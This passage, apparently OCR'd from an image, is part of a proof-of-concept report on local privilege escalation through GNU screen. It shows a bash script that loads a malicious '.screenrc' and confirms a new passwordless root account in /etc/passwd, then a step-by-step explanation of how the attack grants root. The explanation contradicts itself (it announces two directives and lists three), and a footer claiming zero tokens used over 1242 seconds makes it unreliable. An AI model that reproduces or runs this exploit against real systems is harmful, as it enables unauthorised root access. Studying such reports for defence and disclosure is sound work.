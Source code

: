 ```bash
# Run screen with the malicious .screenrc
screen -c /tmp/malicious_screenrc

echo "Screen command executed. Checking /etc/passwd..."

# Check if the new user is in /etc/passwd
if grep -q "newroot" /etc/passwd; then
    echo "Exploit successful! New root user 'newroot' added to /etc/passwd."
    # Clean up
    rm -f /tmp/add_root.sh
    rm -f /tmp/malicious_screenrc
    exit 0
else
    echo "Exploit failed. New root user not found in /etc/passwd."
fi

# Clean up
rm -f /tmp/add_root.sh
rm -f /tmp/malicious_screenrc
```

### 5.2 Successful Exploitation Steps
1.  **Prepare the Payload Script:** The PoC creates `/tmp/add_root.sh`, a shell script that, when executed, appends the `NEW_ROOT_USER` string (`newroot::0:0:newroot:/root:/bin/bash`) to `/etc/passwd`. This effectively adds a new user named `newroot` with UID 0 and GID 0 (root privileges), a home directory of `/root`, and `/bin/bash` as its default shell. The script is then made executable.
2.  **Craft Malicious `.screenrc`:** A malicious `.screenrc` file (`/tmp/malicious_screenrc`) is created. This file contains two key directives:
    *   `logfile /dev/null`: This sets the logfile to `/dev/null`, preventing `screen` from writing logs to an unintended location.
    *   `log on`: This enables logging.
    *   `exec /tmp/add_root.sh`: This is the crucial part. When `screen` processes this `.screenrc` file, the `exec` command will execute `/tmp/add_root.sh` with the privileges of the `screen` process. If `screen` is setuid root, `/tmp/add_root.sh` will be executed as root.
3.  **Execute `screen` with Malicious Configuration:** The `screen` command is executed with the `-c` option, pointing to the malicious `.screenrc` file: `screen -c /tmp/malicious_screenrc`. This forces `screen` to load the attacker-controlled configuration.
4.  **Privilege Escalation:** As `screen` processes the `exec` command in the malicious `.screenrc` while running with root privileges, `/tmp/add_root.sh` is executed as root. This script then successfully modifies `/etc/passwd`, adding the `newroot` user with root privileges.
5.  **Verification and Cleanup:** The script then checks `/etc/passwd` to confirm the presence of the `newroot` user. If found, it declares the exploit successful and cleans up the temporary files (`/tmp/add_root.sh` and `/tmp/malicious_screenrc`).

This demonstrates a clear path for a local attacker to gain root access on systems running vulnerable versions of GNU screen.


---

Multi-Agent Context:
Total running time: 1242.2 seconds
## Usage Summary:
Total tokens used: 0 input + 0 output = 0 total tokens (0 requests)
